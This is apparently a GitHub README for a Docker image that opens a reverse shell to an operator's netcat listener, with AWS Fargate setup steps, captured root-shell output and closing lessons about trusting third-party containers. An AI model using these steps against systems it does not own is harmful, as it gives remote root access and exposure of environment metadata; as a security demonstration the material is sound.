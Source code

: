 # Reverse Shell Container

[![pulls](https://img.shields.io/docker/pulls/ayeks/reverse_shell)](https://hub.docker.com/r/ayeks/reverse_shell)
[![automated](https://img.shields.io/docker/cloud/automated/ayeks/reverse_shell)](https://hub.docker.com/r/ayeks/reverse_shell)
[![image-size](https://img.shields.io/docker/image-size/ayeks/reverse_shell)](https://hub.docker.com/r/ayeks/reverse_shell)

Run a container which connects to a server with a reverse shell.

## Usage of the remote shell container

Follow these steps to connect back to a shell from within a container.

### Start the server

The reverse shell in the container will connect back to your server.
Open up a port with the following snippet:

```bash
nc -lvvp 6666
```

### optional: Build the image

```bash
docker build -t ayeks/reverse_shell:latest .
```

### Execute the image

Run the reverse shell container with: `docker run --rm -it -e IP=192.168.178.26 -e PORT=6666 ayeks/reverse_shell`

## Start the reverse shell container in AWS Fargate

We all run 3rd party components in our kubernetes clusters but couldn't
care less about it. This example shows how to setup the reverse shell
as a Fargate Container and how it connects back to an EC2 server.

### Setup the AWS Security Groups

Create a reference security group for the container which we will allow
as ingress at our server.

* Security Group Name: `sg_reverse_shell_reference`
* Inbound Rules: none
* Outbound Rules:
  * `All traffic All All 0.0.0.0/0`

Create a security group for your server that allows you to connect to it via
SSH from home and with the reverse shell from the container.

* Security Group Name: `sg_server`
* Inbound Rules:
  * `All TCP TCP 0 - 65535 sg-RANDOMNUMBER(sg_reverse_shell_reference)`
  * `SSH TCP 22 YOUR_PUBLIC_IP/32`
* Outbound Rules: all TCP, all IPs:
  * `All traffic All All 0.0.0.0/0`

### Setup the AWS EC2 server

Just choose a EC2 machine that you like. Attach the securitygroup
`sg_server` to this machine. Start the server and connect to it via SSH.

### Create a new container tasks definition

Create a new task definition for the reverse shell container. Only add the
necessary information.

* Task Definition Name: `reverse_shell`
* Task Memory: `0.5GB`
* Task CPU: `0.25 vCPU`
* Container Definition:
  * Container Name: `reverse_shell`
  * Image: `ayeks/reverse_shell`
  * Memory Limit: `Soft limit 400`
  * Environment Variables:
    * `IP` - `your servers internal IP adress`
    * `Port` - `6666`

### Start the reverse shell container in AWS ECS

Before you run the task make sure that you listen for the container at your server:

```bash
nc -lvvp 6666
```

Now go to your cluster and hit *run task*:

* Launch Type: `Fargate`
* Task Definition: `reverse_shell`
* Cluster VPC: `your favourite VPC`
* Subnets: `your favourite subnet`
* Security Groups: edit and select the existing: `sg_reverse_shell_reference`
* Auto-assign public IP: `Enabled` <- without that you cannot pull the image from Docker hub

As a result the container should connect back to your server. You are now able to execute commands directly in the container, eg. `uname -a`:

```bash
[ec2-user@ip-172-31-39-189 ~]$ nc -lvvp 6666
Ncat: Version 7.50 ( https://nmap.org/ncat )
Ncat: Listening on :::6666
Ncat: Listening on 0.0.0.0:6666
Ncat: Connection from 172.31.2.37.
Ncat: Connection from 172.31.2.37:56656.
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
root@ip-172-31-2-37:/# uname -a
uname -a
Linux ip-172-31-2-37.eu-west-1.compute.internal 4.14.158-129.185.amzn2.x86_64 #1 SMP Tue Dec 24 03:15:32 UTC 2019 x86_64 GNU/Linux
```

Just printing the environment variables.

```bash
root@ip-172-31-2-37:/# env
env
AWS_EXECUTION_ENV=AWS_ECS_FARGATE
HOSTNAME=ip-172-31-2-37.eu-west-1.compute.internal
AWS_DEFAULT_REGION=eu-west-1
AWS_REGION=eu-west-1
PWD=/
PORT=6666
HOME=/root
IP=172.31.39.189
ECS_CONTAINER_METADATA_URI=http://169.254.170.2/v3/b9fa9196-e49a-4140-ae3b-bd7322cfbd44
SHLVL=2
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
_=/usr/bin/env
```

Or after installation with apt-get, you can run `lshw`:

```bash
root@ip-172-31-2-37:/# lshw
lshw
ip-172-31-2-37.eu-west-1.compute.internal
  description: Computer
  width: 64 bits
  capabilities: smp vsyscall32
  *-core
     description: Motherboard
     physical id: 0
   *-memory
      description: System memory
      physical id: 0
      size: 4GiB
   *-cpu
      product: Intel(R) Xeon(R) CPU E5-2676 v3 @ 2.40GHz
      vendor: Intel Corp.
      physical id: 1
      bus info: cpu@0
      width: 64 bits
...
```

### Troubleshooting

If your container task does not reach the state `RUNNING` but goes
into `STOPPED` have a look the reason. If the container is not able to
connect to your server it just dies and returns `Exit Code 1`.
Check the security groups and other networking topics if that happens.

### Lessons Learned

* think twice before using random containers from the internet
* do not assume you are save, just because you dont allow ingress traffic
* do not run the container as root user because you install interesting software with it
* strip the container base image down as much as possible to reduce available tools
